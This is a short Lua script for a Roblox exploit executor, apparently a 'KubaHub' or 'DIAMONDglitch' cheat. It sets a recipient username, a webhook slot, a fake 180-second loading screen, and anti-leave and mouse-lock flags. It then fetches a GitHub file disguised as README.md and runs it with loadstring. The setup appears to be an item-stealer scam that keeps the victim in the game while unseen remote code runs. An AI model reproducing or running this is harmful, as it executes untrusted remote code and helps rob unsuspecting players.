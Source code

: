 UserName = "KubaQ102x"
UserName2 = "KubaQ102x"
Webhook = ""

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 

_G.ScriptName = "KubaHub"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/Mordia000/DIAMONDglitch/main/README.md", true))()
